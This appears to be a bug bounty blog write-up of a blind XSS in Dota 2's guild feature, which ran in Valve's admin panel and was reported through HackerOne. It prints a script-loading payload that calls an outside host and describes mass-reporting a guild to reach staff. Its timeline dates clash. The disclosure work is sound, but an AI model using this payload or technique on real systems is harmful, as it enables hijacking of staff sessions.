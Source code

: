 ```yaml
---
comments: true
title: "Blind XSS Found Via In-Game Feature of Dota 2 \U0001F3AE"
date: 2022-03-31 00:00:00 +0700
category:
- bugbounty
tags:
- xss
- web
- dota2
private: false

---
```

The finding started when Dota 2 is announcing the new feature for the battle pass owner that is being able to create a guild in the game the update was around october 2020.

![Dota 2 Update ](/uploads/screen-shot-2022-03-31-at-14-03-20.png "Dota 2 Update ")

> **Guild Updates**
>
> We reintroduced Guilds during the Battle Pass, and we were happy to see how many players participated in Guilds and shared their feedback with us. We are keeping the existing Guilds, but many of the rewards received only worked in the context of the Battle Pass. We've redesigned those features so that you can enjoy playing with your guild all the time.
>
> \- [https://www.dota2.com/newsentry/3066366095799664170](https://www.dota2.com/newsentry/3066366095799664170 "https://www.dota2.com/newsentry/3066366095799664170")

Because i was an active player of the game and also bugbounty hunter, my idea just popped out to create guild with the Blind XSS Payload name, without even thingking the payload will executed somewhere on the valve systems.

![](/uploads/create-new-guild.png)

my first thought is wrong and the exploit was executed on the Dota 2 administration panel, which is a web application hosted on dota2.com which make me excited 🙀🙀🙀.

![](/uploads/174_total_reports.png)

This is was the admin panel looks like, rather than trying to escalating my privilege with the javascript execution i have, i just report what i found immediatelly to the [https://hackerone.com/valve](https://hackerone.com/valve "H1 Valve") team, but i've seen the admin panel is manage all the information of the game like the ip address of the currently in-game rooms, also i can possibly banned a player there, pro player information also stored there, etc is like almost everything custom game and whatever there.

![](/uploads/menus.png)

After my investigation to the vulnerability my conclusion is, the more guild registered to the system is more hard of our exploit being viewed by the staff that logged-in to the administrator panel because the table list of guild was sorted by the amount of report received to the guild, so to reproduce it for the second time i was using this steps below:

* Create guild with a blind xss payload as the name `'"><script src=//domain></script>`
* Report the guild name multiple times, until you feel the report amount is enough to make our guild listed on the first page.
* Profit! `alert(1)`

![](/uploads/reporting.png)

There is 3 form of report that can a guild get, `report guild name`, `report guild logo`, `report guild tag` and all of the report amount is combined to `total_reports` that will used as the sorted value when the `datatable` is loaded on the application.

I was automating this process to login to the game and report my guild repeatedly to get the amount of `total_reports` i want to get my guild on the first page of the `datatable` since the table is configured to only show 50 rows for each page, to get this was not hard since i was testing when the feature is just released couple days ago.

VIDEO

Until then, see you on the next writeup :salute: .

***

Jun 12 2020: Reported  
Jun 12 2020: Severity Changed Crit -> High ( I don't get it actually,  the team said my xss need user interaction but i don't think that make a)  
Jun 16 2020: Triaged  
Sept 8 2020: Severity Changed High -> Med ( Based on all the information and actions that i can do there, this just dissapointing 😪 )  
Sept 8 2020: Rewarded 750USD + 150USD Bonus

Proof(UNDISCLOSED yet): [https://hackerone.com/reports/896281](https://hackerone.com/reports/896281 "https://hackerone.com/reports/896281")